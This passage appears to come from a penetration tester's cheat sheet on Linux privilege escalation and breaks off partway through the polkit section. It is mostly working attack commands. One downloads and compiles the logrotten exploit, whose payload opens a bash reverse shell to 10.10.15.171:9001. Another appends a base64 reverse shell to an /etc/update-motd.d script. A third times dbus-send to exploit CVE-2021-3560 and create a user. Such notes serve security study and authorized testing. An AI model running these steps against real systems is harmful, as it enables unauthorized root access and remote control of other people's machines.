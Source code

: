 ```
$ curl https://github.com/whotwagner/logrotten/raw/master/logrotten.c > lr.c
$ gcc lr.c -o lr

$ cat payloadfile
if [ `id -u` -eq 0 ]; then (bash -c 'bash -i >& /dev/tcp/10.10.15.171/9001 0>&1' &); fi

$ ./lr -p ./payload -t /home/snovvcrash/backups/access.log -d
```

* [https://github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten)
* [https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges](https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges)
* [https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition)
* [https://popsul.ru/blog/2013/01/post-42.html](https://popsul.ru/blog/2013/01/post-42.html)



### motd

`/etc/update-motd.d/`:

```
$ shellpop --reverse --number 8 -H 127.0.0.1 -P 1337 --base64
$ echo '<BASE64_SHELL>' >> 00-header
* Fire up new SSH session and catch the reverse shell
```

* [https://www.securityfocus.com/bid/50192/discuss](https://www.securityfocus.com/bid/50192/discuss)

PAM MOTD:

* [https://www.exploit-db.com/exploits/14273](https://www.exploit-db.com/exploits/14273)
* [https://www.exploit-db.com/exploits/14339](https://www.exploit-db.com/exploits/14339)



### polkit/dbus-daemon

**CVE-2021-3560**

* [https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)

Calculate the approximate time for `dbus-send` to fail:

```
$ time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:snovvcrash string:snovvcrash int32:1
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required

real    0m0.014s
user    0m0.003s
sys     0m0.001s
```

Divide it by 2 or by 3 and create a new user account (you might want to experiment with the number of milliseconds in the delay and repeat the process a couple of times if needed):
